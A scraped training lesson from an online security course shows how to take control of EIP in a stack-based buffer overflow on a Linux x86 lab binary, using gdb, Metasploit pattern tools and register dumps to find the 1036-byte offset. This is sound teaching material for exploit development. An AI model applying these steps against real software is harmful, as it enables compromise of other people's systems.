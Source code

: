 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/31/section/390
// Platform Version: V1
// Module ID: 31
// Module Name: Stack-Based Buffer Overflows on Linux x86
// Module Difficulty: Medium
// Section ID: 390
// Section Title: Take Control of EIP
// Page Title: Stack-Based Buffer Overflows on Linux x86
// Page Number: 06
-->

# Take Control of EIP

**Module Name:** Stack-Based Buffer Overflows on Linux x86 **Page Number:** 06

#### STACK-BASED BUFFER OVERFLOWS ON LINUX X86

# Take Control of EIP

#### Segmentation Fault

``` shell-session
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

``` shell-session
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

#### Buffer

![https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

## Determine The Offset

#### Create Pattern

``` shell-session
[!bash!]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
[!bash!]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

#### GDB - Using Generated Pattern

``` shell-session
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

#### GDB - EIP

``` shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

#### GDB - Offset

``` shell-session
[!bash!]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

#### Buffer

![https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_3.png)

#### GDB Offset

``` shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

# 

# 

#### Questions

####